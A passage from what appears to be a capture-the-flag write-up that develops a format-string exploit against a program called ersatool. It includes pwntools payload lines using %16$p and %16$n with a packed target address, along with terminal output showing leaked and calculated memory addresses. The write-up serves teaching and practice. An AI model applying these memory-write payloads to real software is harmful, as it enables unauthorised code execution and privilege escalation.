 To get around this, I’ll put the address at the end of the string. I want this
address to be at a fixed point relative to my input, even if my input changes,
so I’ll create a fixed length of space for various format strings, and then
put the address, and try to print it. After some playing around, I found that
with 64 bytes for format string and then the address, the address was the 16th
argument:

    
    
    print->CN=%16$016pAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB
    0x4242424242424242AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB[!] ERR reading /opt/easyrsa/clients/%16$016pAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB.ovpn!
    

This gives me a lot of space to change the start of the payload, and as long
as I adjust the padding, the address (right now `BBBBBBBB`) will stay in the
same place. I can use this template, replacing the As with other specifiers as
needed, and leave the address at that offset, and now know how to reference
it.

I’ll add this line before the last `p.interactive()` line in my script:

    
    
    p.sendline("%16$20p".ljust(64, '.').encode() + p64(ersa_dir_addr))
    

It works:

    
    
    oxdf@parrot$ python3 root.py 
    [+] Starting local process './ersatool': pid 543293
    [+] Leaked EXT address:          0x0000558319fe215f
    [+] Calculated ERSA_DIR address: 0x0000558319fe20f0
    [*] Switching to interactive mode
          0x558319fe20f0.........................................................\xf0 \xfe\x83U[!] ERR reading /opt/easyrsa/clients/%16$20p.........................................................\xf0 \xfe\x83U.ovpn!
    
    print->CN=$
    

The output line has a 20 character address padded with spaces followed by
periods as filler until it reaches the address I passed in, stopping a the
null bytes.

I’ll change the line a bit now:

    
    
    p.sendline("%16$20p%16$n".ljust(64, '.').encode() + p64(ersa_dir_addr))
    

Running this prints the same thing:

    
    
    oxdf@parrot$ python3 root.py 
    [+] Starting local process './ersatool': pid 545730
    [+] Leaked EXT address:          0x00005640f813e15f
    [+] Calculated ERSA_DIR address: 0x00005640f813e0f0
    [*] Switching to interactive mode
    0x5640f813e0f0....................................................\xf0\xe0\xf8@V[!] ERR reading /opt/easyrsa/clients/%16$20p%16$n....................................................\xf0\xe0\xf8@V.ovpn!
    